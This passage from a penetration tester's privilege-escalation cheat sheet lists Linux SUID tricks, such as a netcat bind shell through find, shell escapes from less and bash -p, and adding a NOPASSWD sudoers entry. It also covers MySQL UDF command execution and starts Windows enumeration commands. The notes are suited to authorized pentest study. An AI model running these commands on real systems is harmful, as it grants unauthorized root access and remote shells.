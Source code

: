 find  
    touch pentestlab  
    find pentestlab -exec netcat -lvp 5555 -e /bin/sh \;  
    
Bash  
    bash -p      
            
More  
    
Less  
    less /etc/passwd  
    !/bin/sh  

Nano  
    Can you modify system file?  
    Modify /etc/suoders  
    \<user> ALL=(ALL) NOPASSWD:ALL  
    
cp  
    Use cp to overwrite passwd with a new password  
    
##### Is there a custom suid application?  
How can this application be run?  
Can be modify the path variable so that it will execute something else  

#### NFS priv esc
https://medium.com/@Kan1shka9/hacklab-vulnix-walkthrough-b2b71534c0eb

#### Linux capability
find / -type f -print0 2>/dev/null | xargs -0 getcap 2>/dev/null
getcap -r /

google that capability on how it can help us get root

#### Mysql run by root
MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library
https://www.exploit-db.com/exploits/1518/

You can also try
select sys_exec('echo test>/tmp/test.txt');
select sys_eval('echo test>/tmp/test.txt');

### Windows Privilege Escalation

#### patch level  
systeminfo  
wmic qfe get Caption,Description,HotFixID,InstalledOn  

whoami  
echo %USERNAME%  

net user  
net localgroup  

users in a domain  
net user /domain  
